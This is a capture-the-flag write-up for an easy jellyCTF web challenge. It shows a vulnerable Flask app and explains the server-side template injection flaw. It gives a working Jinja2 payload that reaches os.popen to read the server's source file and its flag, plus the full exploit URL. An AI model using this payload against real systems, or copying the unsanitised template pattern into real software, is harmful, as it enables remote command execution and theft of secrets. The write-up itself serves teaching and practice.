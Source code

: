# bro_visited_his_site
Writeup author: **lolmenow**

Point count: 100pts

Difficulty: easy

Provided files: bro_visited_his_site.zip

Url: https://bro-visited-his-site.jellyc.tf/

Description: bro stored his secrets in the flask app config
# 

Upon visiting the website, it seems like we type anything in this box and it just reflects what we put in the box.

Seeing this, I immediately thought that our input might not be sanitized properly, so I took a look at the source code.

```
#!/usr/bin/env python3
from flask import Flask, request, render_template_string, send_from_directory

app = Flask(__name__)
app.config["FLAG"] = "jellyCTF{redacted}"

@app.route("/")
def index():
    return """
        <img src="/static/bro.jpg" />
        <form action="/response" method="get">
            <textarea cols="50" name="word"></textarea>
            <input type="submit" value="go">
        </form>
    """

@app.route("/response")
def response():
    word = request.args.get("word", "")

    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
    ''')

@app.route('/static/<path:path>')
def send_static(path):
    return send_from_directory('static', path)

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8081, debug=True)
```

Yup! We see that in the response route, specifically in the way it uses render_template_string to render the user input, the users input is put directly into the template without proper sanitization. This makes the website vulnerable to `Server-Side Template Injection (SSTI)`

Once knowing this, I used hacktricks SSTI Jinja 2 SSTI [payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) (because we know the website is running with flask) and kept trying payloads until one worked.

This one worked!

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat bros_site.py").read()}}{%endif%}{% endfor %}`

*Note: `bros_site.py`, as mentioned above, contains the secret in the flask config, hence why we need to read it*

Once injected into the `word` parameter, we get this:

![image](https://github.com/sa1181405/pbchocolate-private-writeups/assets/170969470/0921d7e0-7d2f-4d90-a830-4cf1e095102d)

And there it is! Our flag!

Final flag: `jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`

Final payload: `https://bro-visited-his-site.jellyc.tf/response?word={% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat bros_site.py").read()}}{%endif%}{% endfor %}`
